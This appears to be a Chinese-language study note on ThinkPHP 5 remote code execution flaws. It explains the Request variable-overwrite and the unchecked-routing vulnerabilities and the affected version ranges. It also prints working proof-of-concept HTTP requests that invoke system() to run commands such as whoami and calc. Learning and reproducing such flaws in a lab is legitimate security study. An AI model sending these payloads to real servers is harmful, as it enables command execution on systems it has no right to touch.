


# ThinkPHP 相关漏洞浅略学习

1. 目前学习的主要思路就是大概了解漏洞原理，不过于深入代码，记录复现时的一些问题和经验。

2. 主要参考文章：

    > https://www.cnblogs.com/nongchaoer/p/12029478.html
    > https://blog.csdn.net/qq_39495209/article/details/107864262
    > https://blog.csdn.net/qq_39495209/article/details/107486928
    > https://www.cnblogs.com/lingzhisec/p/15728886.html
    > https://hyasin.github.io/2020/09/08/ThinkPHP%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

3. 环境搭建的注意事项：

    1. 使用 composer 创建项目时，指定默认的 tp 版本都是最新版，更改版本的方式就是在创建的项目下执行：
        `composer require topthink/framework 5.x.x`
    2. 注意下载对应的 captcha 版本。

## 1. ThinkPHP 5 相关漏洞

### 1.1 ThinkPHP5 RCE - 核心类 Request 其中变量被覆盖导致 RCE

1. 漏洞原理大概就是 `Request` 类的 `_method` 变量用户可控，传入魔术方法 `__construct`（构造函数）后被执行，后面的参数用于指定恶意方法。
    变量 `s` 应该是 PATH_INFO 模式下的**路由**参数。
    

2. 对于版本小于 5.0.13 的，其 PoC 如下：

    ```html
    POST ?s=index HTTP/1.1
    ...
    _method=__construct&filter[]=system&method=GET&get[]=whoami
    ```

3. 对于版本 >= 5.0.13 且 <= 5.0.23 的，其需要开启 debug，5.0.10 后 debug 自动关闭。
    debug 的开启在 `application - config.php`：
    
    其余不变。
    特殊情况就是，如果存在 captcha 模块和对应的 captcha 路由时，可以不需要开启 debug，此时的 PoC 就是：

    ```html
    POST ?s=captcha HTTP/1.1
    ...
    _method=__construct&filter[]=system&method=GET&get[]=whoami
    ```

4. 对于版本 <= 5.1.2，执行 PoC 时会报错，指出 Env 相关错误。同时 5.1 版本默认 debug 模式也是**关闭**的。经过测试，这种 PoC 的版本最多到 5.1.7，即 5.1.3 <= Version <= 5.1.7。

### 1.2 ThinkPHP5 RCE - 路由控制不严谨导致可以调用任意类致使 RCE

1. 漏洞成因大概是：ThinkPHP 默认没有开启**强制路由**，而且默认开启**路由兼容模式**。那么我们可以用兼容模式来调用控制器 Controller，当没有对控制器过滤时，我们可以调用任意的方法来执行。所有用户参数都会经过 `Request` 类的 `input` 方法处理，该方法会调用 `filterValue` 方法，而 `filterValue` 方法中使用了 `call_user_func` ，尝试利用这个方法来执行命令。

2. 版本 <= 5.0.22 时存在漏洞，版本 <= 5.1.30 时也存在，以后的版本采用正则匹配校验，因此漏洞修复，常见的 PoC 如下：
    ```html
    5.0.x
    ?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=calc
    5.1.x
    ?s=index/think\Request/input&filter[]=system&data=calc
    ?s=index/think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=calc
    ```

3. todo：5.0.24 存在序列化口时存在反序列化利用。